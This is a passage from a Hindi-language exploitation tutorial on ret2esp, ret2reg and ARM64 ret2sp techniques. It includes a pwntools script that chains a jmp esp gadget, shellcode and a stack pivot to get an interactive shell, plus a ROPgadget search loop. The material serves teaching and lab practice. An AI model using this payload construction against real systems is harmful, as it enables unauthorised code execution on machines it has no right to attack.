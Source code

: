 ```python
jmpEsp = p32(0x08048504)

# 0x080484fd : push ebp ; mov ebp, esp ; sub esp, 0x24 ; ret
pivot = p32(0x80484fd)

# Make the payload

payload = ""
payload += jmpEsp # Our jmp esp gadget
payload += shellcode # Our shellcode
payload += "1"*(0x20 - len(shellcode)) # Filler between end of shellcode and saved return address
payload += pivot # Our pivot gadget

# Send our payload
target.sendline(payload)

# Drop to an interactive shell
target.interactive()
```
## Ret2reg

उसी तरह, अगर हमें पता है कि एक फ़ंक्शन वहाँ पता करता है जहाँ शेलकोड स्टोर है, तो हम **`call eax`** या **`jmp eax`** इंस्ट्रक्शन का उपयोग कर सकते हैं (**ret2eax** तकनीक के रूप में), हमारे शेलकोड को निष्पादित करने के लिए एक और विधि प्रदान करते हैं। eax की तरह, **किसी भी अन्य रजिस्टर** का उपयोग किया जा सकता है जिसमें दिलचस्प पता हो (**ret2reg**।)

### उदाहरण

आप यहाँ कुछ उदाहरण पा सकते हैं:&#x20;

* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg)
* [https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/ASLR%20Smack%20and%20Laugh%20reference%20-%20Tilo%20Mueller/ret2eax.c](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/ASLR%20Smack%20and%20Laugh%20reference%20-%20Tilo%20Mueller/ret2eax.c)
* **`strcpy`** शेलकोड को स्टोर किए गए बफ़र का पता **`eax`** में रखेगा और **`eax`** को अधिलिखित नहीं किया जा रहा है, इसलिए `ret2eax` का उपयोग संभव है।

## ARM64

### Ret2sp

ARM64 में **SP रजिस्ट्री पर जाने की** अनुमति देने वाले इंस्ट्रक्शन नहीं हैं। शायद किसी गैजेट को ढूंढना संभव हो कि **sp को एक रजिस्ट्री में मूव करता है और फिर उस रजिस्ट्री पर जाता है**, लेकिन मेरे काली की libc में मैंने ऐसा कोई गैजेट नहीं पाया:
```bash
for i in `seq 1 30`; do
ROPgadget --binary /usr/lib/aarch64-linux-gnu/libc.so.6 | grep -Ei "[mov|add] x${i}, sp.* ; b[a-z]* x${i}( |$)";
done
```
{% endcode %}
